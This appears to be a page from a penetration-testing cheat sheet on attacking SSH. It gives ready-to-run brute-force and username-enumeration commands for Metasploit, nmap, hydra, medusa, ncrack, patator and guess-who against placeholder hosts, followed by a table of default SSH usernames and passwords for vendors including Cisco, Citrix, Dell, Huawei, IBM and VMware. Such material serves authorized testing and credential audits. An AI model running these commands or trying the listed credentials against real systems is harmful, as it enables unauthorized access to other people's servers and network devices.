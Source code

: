 Windows:

- Putty
- Filezilla
- Winscp

## SSH Credentials

## SSH Brute Forcing

```bash
#Metasploit ssh brute force
use auxiliary/scanner/ssh/ssh_login

#Metasploit username enumeration with brute force
use auxiliary/scanner/ssh/ssh_enumusers

#Nmap Brute Force
nmap -p 22 --script ssh-brute --script-args userdb=users.list,passdb=pass.list \--script-args ssh-brute.timeout=4s 10.10.x.x

#Other Brute Forcing Methods
hydra -L users.txt -P passwords.txt ssh://10.10.x.x -t 8
medusa -t 2 -T2 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -H /root/Desktop/host.txt -n 22 -M ssh
ncrack -g CL=2 -U users.list -P passwords.list -iL targetIPs.list -p ssh:22 -oA Results.txt
patator ssh_login host=10.10.x.x user=FILE0 password=FILE1 0=users.list 1=passwords.list persistent=0 -x ignore:mesg=’Authentication failed.’
./guess-who -l username -h 10.10.x.x -p 22 -2 < passwords.list (https://packetstormsecurity.com/groups/teso/guess-who-0.44.tgz)
```

## SSH Default Credentials for Vendors

| Vendor | Username | Password |
| --- | --- | --- |
| APC | apc, device | apc |
| Brocade | admin | admin123, password, brocade, fibranne |
| Cisco | admin, cisco, enable, hsa, pix, pnadmin, ripeop, root, shelladmin | admin, Admin123, default, password, secur4u, cisco, Cisco, _Cisco, cisco123, C1sco!23, Cisco123, Cisco1234, TANDBERG, change_it, 12345, ipics, pnadmin, diamond, hsadb, c, cc, attack, blender, changeme |
| Citrix | root, nsroot, nsmaint, vdiadmin, kvm, cli, admin | C1trix321, nsroot, nsmaint, kaviza, kaviza123, freebsd, public, rootadmin, wanscaler |
| D-Link | admin, user | private, admin, user |
| Dell | root, user1, admin, vkernel, cli | calvin, 123456, password, vkernel, Stor@ge!, admin |
| EMC | admin, root, sysadmin | EMCPMAdm7n, Password#1, Password123#, sysadmin, changeme, emc |
| HP/3Com | admin, root, vcx, app, spvar, manage, hpsupport, opc_op | iMC123, pvadmin, passw0rd, besgroup, vcx, nice, access, config, 3V@rpar, 3V#rpar, procurve, badg3r5, OpC_op, !manage, !admin |
| Huawei | admin, root | 123456, admin, root, Admin123, Admin@storage, Huawei12#$, HwDec@01, hwosta2.0, HuaWei123, fsp200@HW, huawei123 |
| IBM | USERID, admin, manager, mqm, db2inst1, db2fenc1, dausr1, db2admin, iadmin, system, device, ufmcli, customer | PASSW0RD, passw0rd, admin, password, Passw8rd, iadmin, apc, 123456, cust0mer |
| Juniper | netscreen | netscreen |
| NetApp | admin | netapp123 |
| Oracle | root, oracle, oravis, applvis, ilom-admin, ilom-operator, nm2user | changeme, ilom-admin, ilom-operator, welcome1, oracle |
| VMware | vi-admin, root, hqadmin, vmware, admin | vmware, vmw@re, hqadmin, default |
